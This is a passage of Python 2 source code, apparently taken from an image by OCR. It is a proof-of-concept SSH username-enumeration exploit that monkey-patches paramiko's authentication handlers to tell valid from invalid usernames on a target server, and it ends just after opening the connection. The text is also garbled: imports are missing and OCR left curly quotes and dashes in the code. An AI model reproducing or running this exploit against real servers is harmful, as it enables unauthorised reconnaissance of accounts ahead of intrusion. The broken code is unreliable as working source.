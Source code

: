 ```

import paramiko

import socket

import sys

class InvalidUsername(Exception):

pass

def add_boolean(*args, **kwargs):

pass

old_service_accept = paramiko.auth_handler.AuthHandler._handler_table[

paramiko.common.MSG_SERVICE_ACCEPT]

def service_accept(*args, **kwargs):

paramiko.message.Message.add_boolean = add_boolean

return old_service_accept(*args, **kwargs)

def userauth_failure(*args, **kwargs):

raise InvalidUsername()

paramiko.auth_handler.AuthHandler._handler_table.update({

paramiko.common.MSG_SERVICE_ACCEPT: service_accept,

paramiko.common.MSG_USERAUTH_FAILURE: userauth_failure

})

logging.getLogger(‘paramiko.transport’).addHandler(logging.NullHandler())

arg_parser = argparse.ArgumentParser()

arg_parser.add_argument(‘hostname’, type=str)

arg_parser.add_argument(’–port’, type=int, default=22)

arg_parser.add_argument(‘username’, type=str)

args = arg_parser.parse_args()

sock = socket.socket()

try:

sock.connect((args.hostname, args.port))

except socket.error:

print ‘[-] Failed to connect’

sys.exit(1)

transport = paramiko.transport.Transport(sock)

```